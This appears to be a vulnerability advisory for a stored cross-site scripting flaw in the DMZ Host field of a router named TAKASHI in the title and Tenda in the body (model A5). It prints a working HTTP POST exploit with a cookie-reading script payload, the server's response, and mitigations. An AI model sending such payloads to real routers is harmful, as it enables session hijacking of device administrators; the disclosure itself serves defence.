 # TAKASHI Wireless Instant Router and Repeater - XSS Vulnerability

## Overview
A stored cross-site scripting (XSS) vulnerability has been identified in the TAKASHI Wireless Instant Router and Repeater (Model A5) running firmware version **V5.07.38_AAL03** with hardware version **V3.0**. This vulnerability arises due to improper sanitization of user input in the `DMZ Host` IP address field.

## Affected Model
- **Model**: A5
- **Manufacturer**: Tenda 
- **Software Version**: V5.07.38_AAL03  
- **Hardware Version**: V3.0  

## Vulnerability Details
The web application attempts to filter input using a JavaScript function on the client side. However, this validation can be bypassed by sending a direct HTTP request to the web server, leading to a stored XSS vulnerability. Any user visiting the `DMZ Host` section of the web application will have the injected script executed in their browser.

### Exploit Request
The following `POST` request demonstrates the XSS injection:

```
POST /goform/VirSerDMZ HTTP/1.1
Host: 192.168.2.1
Content-Length: 56
Cache-Control: max-age=0
Origin: http://192.168.2.1
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.2.1/nat_dmz.asp
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,nl;q=0.8
Cookie: admin:language=LOL
Connection: keep-alive

GO=nat_dmz.asp&dmzip=`</script><script>alert(document.cookie);</script>`
```

### Response
The request is processed successfully, redirecting the user back to the `nat_dmz.asp` page while storing the malicious script:

```
HTTP/1.0 302 Redirect
Server: GoAhead-Webs
Date: Thu Jan 01 00:53:41 1970
Pragma: no-cache
Cache-Control: no-cache
Content-Type: text/html
Location: http://192.168.2.1/nat_dmz.asp

<html>
<head></head>
<body>
    This document has moved to a new <span><a href="http://192.168.2.1/nat_dmz.asp">location</a></span>.<br>
    Please update your documents to reflect the new location.
</body>
</html>
```

## Impact
- Malicious JavaScript can be injected into the application.
- Users who visit the affected page will have their session cookies exposed.
- The attack could lead to session hijacking, phishing, or further exploitation.

## Mitigation
To mitigate this issue, the following steps should be taken:
1. **Server-side Input Validation**: Sanitize and validate user input before storing or reflecting it.
2. **Content Security Policy (CSP)**: Implement a strict CSP header to prevent inline script execution.
3. **Escaping Output**: Encode user input before rendering it in the browser.
4. **Disable Client-Side Validation Bypass**: Ensure all input validation occurs on the server-side in addition to any JavaScript validation.

## Disclosure Timeline
- **Discovery**: [Insert Date]  
- **Vendor Notified**: [Insert Date]  
- **Patch Released**: [Pending/Date]  
- **Public Disclosure**: [Insert Date]  

## References
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [GoAhead Web Server](https://www.embedthis.com/goahead/)

## Disclaimer
This vulnerability report is for educational and research purposes only. The information provided should not be used for malicious activities. Always obtain proper authorization before testing security vulnerabilities on any system.

---

**Contributors**  
- William James Schleppegrell -> https://github.com/SteamPunk424
  
- Martyn Lodder -> https://github.com/rootofficial

